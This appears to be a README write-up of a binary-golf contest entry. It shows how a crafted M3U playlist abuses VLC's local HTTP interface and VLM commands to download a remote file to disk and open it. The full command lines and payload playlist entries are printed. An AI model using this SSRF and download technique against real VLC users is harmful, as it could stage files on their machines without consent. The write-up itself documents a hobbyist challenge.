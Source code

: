 # M3U for VLC

aka SSRF'ing VLCs HTTP interface.

## TLDR

* .m3us as VLC supports them can just be a list of URLs, which VLC will send
  requests to fetch. You don't need "#EXTM3U", VLC doesn't care.
* When opened they will add their contents to the active playlist, with the
  filename being the name that shows up in the playlist.
* VLC has an incredibly insecure http interface, which allows you to just send
  GET requests (with the requirement of HTTP auth) to access its commands.
* The interface lets you use VLM commands, which lets you script VLC to create
  streams.
* It is possible to use run a few VLM commands to download a file via HTTPS to
  disk, and also open this file as well.
* So if you download `https://binary.golf/5/5`, save it as a m3u and open it
  and the contents will be displayed right in the playlist!

## Write up

### From just the command line

To start off, here is a LOLbin usage of VLC to download a file:
```
vlc https://binary.golf/5/5 :demux=dump :demuxdump-file=out.vlc out.vlc
```

(l33t 0d4y, not listed in GTFO bins!)

A few things to note:
* VLC supports accessing HTTP(S) URLs.
* You can use the dump demux [1], that will just write a file with no changes,
  avoiding all media parsing.
* out.vlc will be used as a playlist (.vlc is just an alias for .m3u) and will
  resolve the filename.

### HTTP Interface

#### Enabling

We have to run VLC with some extra flags to enable the http server:
```
vlc -I qt --extraintf http --http-password 5 --http-port 8080 payload.m3u8
```

* Setting the default interface to QT (or macos on macos)
* Enable the HTTP server, set a password (a requirement) and the port.

We need to set the port as I hit different port numbers on macos and linux.

#### What can we do

Looking at [2], we can see two interesting endpoints:
* `status.xml`
* `vlm_cmd.xml`

With `status.xml`, we can play directly play a file from disk, which will come
in handy.

`vlm_cmd.xml` gives us the ability to run VLM commands, which has a lot of
power.

Both are used by passing the query `?command=blah` where blah is the command you
want to run.
Entirely via GET requests!

### VLM to write to disk

VLM[3] gives you a set of commands to setup streams / otherwise control VLC.

After some experimenting, I found the following VLM commands to write a file
downloaded over HTTP to disk:

```
new c broadcast enabled input https://binary.golf/5/5 option demux=dump option demuxdump-file=.m3u
control c play
```

I did experiment with using stream outputs, but I realised I could just use
`demux=dump` here to write it out.

### Bringing everything together

So, we can then run our vlm commands by putting the following in the file:
```
http://:5@0:8080/requests/vlm_cmd.xml?command=new c broadcast enabled input https://binary.golf/5/5 option demux%3ddump option demuxdump-file%3d.m3u
http://:5@0:8080/requests/vlm_cmd.xml?command=control c playlist
```

`https://:5@0:8080/` does HTTP auth with the password 5, and 0 is an alias for
localhost we can use.
We get to pass our command easily, just needing to manually urlencode `=`.

Next, we need to pause for a second so the playlist exists:
```
vlc://pause:1
```

VLC supports a few basic commands via the URI scheme.

Finally, we can open the BGGP5 file we saved to disk as a m3u, and it'll
display:
```
http://:5@0:8080/requests/status.xml?command=in_play&input=.m3u
```


## References

* [1] https://wiki.videolan.org/Demuxdump/
* [2] https://wiki.videolan.org/VLC_HTTP_requests/
* [3] https://github.com/videolan/vlc/blob/master/doc/vlm.txt
